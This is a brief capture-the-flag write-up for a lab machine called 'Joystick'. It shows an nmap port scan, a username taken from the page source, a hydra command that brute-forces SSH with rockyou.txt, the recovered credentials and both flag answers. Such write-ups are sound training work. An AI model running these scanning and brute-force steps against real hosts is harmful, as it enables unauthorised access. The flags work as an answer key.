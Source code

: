 #JOYSTICK CTF

#Machines ip: 10.10.241.107
	
	cmd: nmap -A -v -p- <ip> 
	open ports:
		21
		80
		22

When we go to the http://ip and check the page source code,we can see there is a message.
	from there we get 
	
		USERNAME - steve
		Weak password ftp+ssh
		ftp not working
		message to Zach

So we can use hydra to bruteforce the credentials.

	hydra -l steve -P rockyou.txt ssh://10.10.241.107

#Results: 

	we got the credentials [steve:changeme]

Now lets ssh the ip..and see whats there
	
	ok..we got our first flag in user.txt 
		ans 1: [flag{is_only_gaem}]
		
So,when go to home we see there is another user named notch.

	In there,we get the final flag root.txt
		ans 2: [flag{poorly_configured_permissions}]


[End of the Game]

